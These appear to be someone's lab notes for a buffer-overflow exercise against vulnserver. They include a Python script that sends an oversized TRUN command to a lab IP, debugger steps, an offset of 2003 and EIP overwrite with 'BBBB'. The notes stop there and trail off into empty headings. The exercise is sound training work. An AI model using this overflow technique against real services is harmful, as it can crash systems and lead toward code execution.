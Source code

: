     https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b
_________________________________________________________________________________________________________________
### Static Analysis
#### Performing basic analysis
    strings secureserverind.exe | more
    file secureserverind.exe
_________________________________________________________________________________________________________________
### Running the program
#### Checking the ports to see if the port we identified is listening
    netstat -antot
_________________________________________________________________________________________________________________
### Using linux to make script
#### Script is to create socket to connect to the program we identified
    vim winbuff.py
```
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) ## Creating Socket, IPv4 TCP
s.connect(("192.168.65.20", 9999)) ## Define host and port
print s.recv(1024) ## Print to screen the response
s.send(buf) ## Send variable buf
print s.recv(1024) ## Print to screen the response
s.close() ## Close the socket
```
_________________________________________________________________________________________________________________
### Run immunitydebugger as admin
#### File > attach > select instance > attach > click run/red arrow
_________________________________________________________________________________________________________________
### Use the site to generate 5000 characters
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### Copy and paste in the script replacing the "A" and dropping the * 5000
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and hit run again
#### Then rerun the script
_________________________________________________________________________________________________________________
### Next copy the EIP and paste into the register value
    https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
#### To find the offset 2003
_________________________________________________________________________________________________________________
### Next update the script by deleting the 5000 generated characters and adding the two lines below
#### buf += "A" * 2003
#### buf += "BBBB"
_________________________________________________________________________________________________________________
### Rewind the immunitydebugger and run again
#### Make sure the script it saved and run it again, should get back 42424242 in the EIP field
_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
### 
#### 


_________________________________________________________________________________________________________________
